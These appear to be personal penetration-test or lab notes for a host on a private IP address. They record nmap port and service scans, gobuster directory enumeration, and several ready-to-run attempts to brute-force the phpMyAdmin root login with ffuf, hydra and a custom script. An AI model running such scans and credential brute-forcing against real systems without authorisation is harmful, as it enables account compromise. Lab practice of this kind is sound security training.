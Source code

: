 # Nmap

## TCP

Scan for open TCP ports:
```bash
nmap -Pn -p- -oN tcp_all.nmap 192.168.227.132
```
Results:
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerate services:
```bash
nmap -Pn -p 22,80 -sV -sC -oN tcp_services.nmap 192.168.227.132
```

## UDP

Scan for open UDP ports:
```bash
nmap -Pn -sU -oN udp_default.nmap 192.168.227.132
```
Results:
No open ports

# HTTP

Gobuster dir brute:
```bash
gobuster dir -u http://192.168.227.132 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
```

![[Pasted image 20240418131650.png]]

/phpmyadmin:
![[Pasted image 20240418131628.png]]
=> PMA_VERSION: 4.6.6deb5
- no known exploits
- default username and password for phpMyAdmin **'root'⁢ and 'password'** dont work

Ffuf password brute force:
```bash
ffuf -request phpmyadmin_login.req -request-proto http -w /usr/share/wordlists/rockyou.txt -fr 'Access denied'
```
=> doesnt work CSRF

Hydra brute force login:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.227.132 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1&target=index.php&lang=en&collation_connection=utf8mb4_unicode_ci&token=da22ee837de8b2af0a7b63e080f1ca93:F=Access denied"
```
=> doesnt work CSRF

Nikto:
```bash
nikto -host 192.168.227.132 -usecookies
```
=> nothing interesting

Brute-force login with my script :)
```bash
python3 ~/tools/brute_forge/brute_forge.py -u http://192.168.227.132/phpmyadmin/index.php -l root -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best110.txt -r phpmyadmin_login.req -t 'token:"(.*?)"' --proxy "http://127.0.0.1:8080" -f "Access denied"
```

